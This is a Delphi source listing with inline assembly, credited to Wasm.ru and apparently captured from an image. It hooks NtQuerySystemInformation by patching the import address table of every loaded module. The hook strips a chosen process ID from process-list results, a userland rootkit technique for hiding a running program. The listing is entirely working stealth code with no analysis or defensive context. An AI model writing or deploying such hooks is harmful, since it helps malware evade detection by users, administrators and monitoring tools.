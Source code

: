       { By Wasm.ru}
     
    function myNtQuerySystemInfo(SystemInformationClass: SYSTEM_INFORMATION_CLASS;
      SystemInformation: Pointer;
      SystemInformationLength: ULONG; ReturnLength: PULONG): LongInt; stdcall;
    label
      onceagain, getnextpidstruct, quit, fillzero;
    asm
    push ReturnLength
    push SystemInformationLength
    push SystemInformation
    push dword ptr SystemInformationClass
    call dword ptr [addr_NtQuerySystemInformation]
    or eax,eax
    jl quit
    cmp SystemInformationClass,SystemProcessesAndThreadsInformation
    jne quit
    onceagain:
    mov esi,SystemInformation
    getnextpidstruct:
    mov ebx,esi
    cmp dword ptr [esi],0
    je quit
    add esi,[esi]
    mov ecx,[esi+44h]
    cmp ecx,mypid
    jne getnextpidstruct
    mov edx,[esi]
    test edx,edx
    je fillzero
    add [ebx],edx
    jmp onceagain
    fillzero:
    and [ebx],edx
    jmp onceagain
    quit:
    mov Result,eax
    end;
     
    procedure InterceptFunctions;
    var
      hSnapShot: THandle;
      me32: MODULEENTRY32;
    begin
      addr_NtQuerySystemInformation := GetProcAddress(getModuleHandle('ntdll.dll'),
        'NtQuerySystemInformation');
      hSnapShot := CreateToolHelp32SnapShot(TH32CS_SNAPMODULE, GetCurrentProcessId);
      if hSnapshot = INVALID_HANDLE_VALUE then
        exit;
      try
        ZeroMemory(@me32, sizeof(MODULEENTRY32));
        me32.dwSize := sizeof(MODULEENTRY32);
        Module32First(hSnapShot, me32);
        repeat
          ReplaceIATEntryInOneMod('ntdll.dll', addr_NtQuerySystemInformation,
            @MyNtQuerySystemInfo, me32.hModule);
        until not Module32Next(hSnapShot, me32);
      finally
        CloseHandle(hSnapShot);
      end;
    end;
     